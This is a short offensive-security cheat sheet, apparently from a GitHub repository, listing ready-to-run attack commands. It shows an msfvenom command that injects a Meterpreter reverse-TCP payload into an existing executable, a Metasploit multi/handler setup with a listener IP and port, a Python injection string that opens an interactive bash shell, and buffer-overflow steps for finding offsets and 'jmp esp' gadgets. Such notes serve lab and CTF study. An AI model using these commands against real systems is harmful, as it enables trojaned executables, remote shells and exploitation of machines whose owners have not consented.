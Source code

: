 ## Inject payload into an existing exe file
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -x <template EXE> -f exe > <output.exe>` 

## dep bypass payload
- `windows/meterpreter/reverse_nonx_tcp`

## multi handler
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set lhost 10.10.12.102
set lport 9001
exploit
```
--- 

# misc
## python injected shell
- `__builtins__.__import__('os').system('/bin/bash -i')`

# exploit development
## finding offset
### gef
- `pattern create 128`
- `pattern search 0x6161616`

### msf
- `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000`
- `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP-Content>`

### pwntools
```python3
from pwn import *
# n = 4 == 32Bit; n = 8 == 64 Bit
cyclic(128, n=4)
cyclic_find('6161616', n=4)
Where 61616161 = value not address
```

# find "jmp esp" with mona.py
- `!mona find -type instr -s "jmp esp" -m <DLL>`
